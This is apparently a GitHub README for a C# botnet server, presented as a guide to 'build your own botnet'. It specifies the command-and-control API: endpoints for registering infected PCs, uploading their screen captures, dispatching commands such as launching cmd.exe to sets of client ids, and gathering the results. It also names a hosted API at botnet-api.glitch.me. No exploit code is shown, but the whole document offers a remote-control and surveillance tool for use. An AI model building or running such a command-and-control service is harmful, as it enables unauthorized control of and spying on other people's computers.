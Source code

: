 # BotNet-Server
C# .Net BotNet Server and everything about it

How to build your own botnet?
- Create API
- - You can use our API example, wrote on JS, or create yourself API
- - - Warning! If you want to create your API, you must realize this methods (Every responses have JSON parsing)
- - - Example Response (Type) is a Types of BotNet Server UI
- - - - post /api/v1/screens/:id
- - - - - Example Request: /api/v1/screens/0
- - - - - Example Request Body: ScreenByte without sid
- - - - - Example Response: sid for next request (uint)
- - - - post /api/v1/screens/:id/:sid
- - - - - Example Request: /api/v1/screens/0/0
- - - - - Example Request Body: ScreenByte without sid
- - - - - Example Response: void
- - - - get /api/v1/screens/:id
- - - - - Example Request: /api/v1/screens/0
- - - - - Example Response: {"id":0, "screens":[{"sid":0, "bytes":[0,0,0,0,0,0...]}]} (Screen)
- - - - get /api/v1/client
- - - - - Example Request: /api/v1/client
- - - - - Example Response: [{"id":0,"nameofpc":"PizhikCoder"},{"id":1,"nameofpc":"Zerumi"}] (IP[])
- - - - get /api/v1/messages
- - - - - Example Request: /api/v1/messages
- - - - - Example Response: 1 (Uint) // count of messages
- - - - get /api/v1/responses
- - - - - Example Request: /api/v1/responses
- - - - - Example Response: [{"id":0, "response":[{"rid":0,"response":"Done! Time used: 0ms"}]}, {...}] (Responses[])
- - - - get /api/v1/messages/:id
- - - - - Example Request: /api/v1/messages/0
- - - - - Example Response: {"id":0,"command":"/start^cmd.exe","ids":["0","1","2","3","4","5","6"]} (Message)
- - - - post /api/v1/client
- - - - - Example Request: /api/v1/client
- - - - - Example Request Body: IP without ID
- - - - - Example Response: 0 (UInt) // Your ID in system
- - - - post /api/v1/messages
- - - - - Example Request: /api/v1/messages
- - - - - Example Request Body: Message without ID
- - - - - Example Response: {"id":0,"command":"/start^cmd.exe","ids":["0","1","2","3","4","5","6"]} (Message) // but this response is useless
- - - - delete /api/v1/messages
- - - - - Example Request: /api/v1/messages
- - - - - Example Response: void
- - - - get /api
- - - - - Example Request: /api
- - - - - Example Response: {"uri":" http://botnet-api.glitch.me/ ","version":1,"port":"3000","environment":"development","clients":1,"messages":1} (Info) // If version = 2, address in ApiRequest will be /api/v2/..., be careful
- - - - get /api/v1/responses/:id/:rid
- - - - - Example Request: /api/v1/responses/0/0
- - - - - Example Response: {"rid":0, "response": "Done! Time used 0ms"} (Response)
- - - - post /api/v1/responses/:id
- - - - - Example Request: /api/v1/responses/0
- - - - - Example Response: 1 (UInt) // count of responses
- - - - delete /api/v1/responses
- - - - - Example Request: /api/v1/responses
- - - - - Example Response: void
- - - - delete /api/v1/client/:id
- - - - - Example Request: /api/v1/client/0
